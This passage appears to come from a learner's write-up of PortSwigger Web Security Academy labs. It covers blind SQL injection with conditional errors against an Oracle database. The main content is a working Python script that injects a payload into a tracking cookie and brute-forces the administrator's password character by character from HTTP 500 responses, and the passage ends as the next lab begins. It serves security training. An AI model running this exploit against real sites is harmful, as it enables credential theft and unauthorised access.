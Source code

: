 ## Lab 12: Blind SQLI with Conditional Errors

This is the same as above, just that queries that have errors result in `r.status_code == 500`.

Firstly, test the type of database by enumerating the version, and I found that this didn't function with `@@version` nor `version()`, meaning that it is an Oracle database.

Can use UNION injection to do this based on the cheatsheet given by Portswigger.

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aaf00570425dff981573eec00f80002'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		payload = f"' UNION SELECT CASE WHEN (username='administrator' AND SUBSTR(password,{i},1) = '{j}') THEN to_char(1/0) ELSE NULL END FROM users--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'rrlrgzRhkR73W0IX' + payload
		}
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if r.status_code == 500:
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

## Lab 13: Visible error-based SQLI

Same as above, but this time if there is an error in the query, it returns a 500, and also prints out the entire query:
